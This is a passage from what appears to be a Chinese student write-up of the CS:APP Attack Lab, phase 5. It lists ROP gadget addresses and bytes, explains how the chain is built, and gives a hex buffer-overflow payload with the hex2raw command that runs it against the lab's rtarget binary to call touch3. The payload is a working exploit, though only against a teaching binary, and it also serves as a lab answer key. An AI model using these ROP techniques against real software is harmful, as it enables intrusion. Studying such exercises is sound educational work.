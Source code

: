 \documentclass{article}
\begin{document}
\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x4019dd & 89 c2 90 c3    & \thead[l]{movl \%eax,\%edx \\ nop \\ ret} \\
      \hline
      0x401a34 & 89 d1 38 c9 c3 & \thead[l]{movl \%edx,\%ecx \\ cmp \%cl,\%cl \\ ret} \\
      \hline
      0x401a13 & 89 ce 90 90 c3 & \thead[l]{movl \%ecx,\%esi \\ nop \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

这样，我们就可以写出攻击代码。首先填满缓冲区，再获得rsp寄存器的值并转移给 rdi 寄存器，然后在 rsi 寄存器中存入偏移量。最后获得字符串的地址，将其存入rdi寄存器，调用touch3函数。使用其中一组数据构造的十六进制数据phase5.txt如下。

\begin{lstlisting}[title=为phase\_5构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00     
  06 1a 40 00 00 00 00 00      	
  c5 19 40 00 00 00 00 00 
  cc 19 40 00 00 00 00 00 
  48 00 00 00 00 00 00 00 
  dd 19 40 00 00 00 00 00 
  69 1a 40 00 00 00 00 00 
  13 1a 40 00 00 00 00 00 
  d6 19 40 00 00 00 00 00 
  c5 19 40 00 00 00 00 00 
  fa 18 40 00 00 00 00 00 
  35 39 62 39 39 37 66 61 
  00 00 00 00 00 00 00 00
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。
\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase5.txt | ./rtarget -q
\end{lstlisting}

\normalsize
\end{document}
